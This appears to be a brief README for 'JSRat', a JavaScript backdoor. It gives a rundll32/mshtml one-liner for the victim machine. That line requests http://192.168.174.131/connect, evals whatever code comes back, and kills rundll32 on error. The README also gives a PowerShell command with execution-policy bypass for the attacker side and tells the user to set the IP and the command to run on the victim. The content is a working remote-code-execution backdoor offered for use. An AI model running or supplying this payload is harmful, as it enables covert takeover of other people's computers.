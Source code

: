 #Javascript Backdoor

http://en.wooyun.io/2016/01/18/JavaScript-Backdoor.html

##Victim machine

>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.174.131/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}


##Attacker machine

powershell.exe -ExecutionPolicy Bypass -File JSRat.ps1

##Important

Update the IP address in JSRat.ps1 (line 19) and the command to be executed on victim machine.
